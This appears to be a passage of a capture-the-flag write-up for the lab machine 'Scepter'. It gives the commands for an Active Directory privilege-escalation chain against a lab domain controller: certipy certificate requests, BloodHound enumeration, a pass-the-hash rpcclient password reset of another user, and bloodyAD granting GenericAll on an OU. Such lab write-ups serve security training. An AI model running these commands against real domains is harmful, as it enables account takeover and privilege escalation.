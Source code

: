 
## Certipy find & obtaining new cert

```bash
certipy find -k -no-pass -dc-ip 10.10.11.65 -target dc01.scepter.htb
certipy req -u 'd.baker@scepter.htb' -dc-ip 10.10.11.65 -dc-host dc01.scepter.htb -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'User' -k -no-pass
```

---

## Bloodhound & Privilege Escalation Chain

**Running BloodHound:**
```bash
sudo bloodhound-python \
   -u 'd.baker' \
   -d scepter.htb \
   -k -no-pass \
   -dc dc01.scepter.htb \
   -ns 10.10.11.65 \
   --dns-tcp \
   --disable-autogc \
   -c all --zip
```
**Finding:**  
- d.baker user can **force change password** on a.carter.

---

## Force Change Password - a.carter user

## Certipy auth with new NT hash and ccache

```bash
certipy auth -pfx d.baker.pfx -dc-ip 10.10.11.65
export KRB5CCNAME=d.baker.ccache
```
## Changing a.carter's password in rpcclient

```bash
pth-rpcclient -U 'SCEPTER\d.baker%aad3b4...:18b5fb...' 10.10.11.65 -c "setuserinfo2 a.carter 23 'NoSecHere!'"
```

---

## GGenericAll on StaffAccessCertificate OU

```bash
bloodyAD -d scepter.htb -u a.carter -p 'NoSecHere!' --host dc01.scepter.htb --dc-ip 10.10.11.65 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

---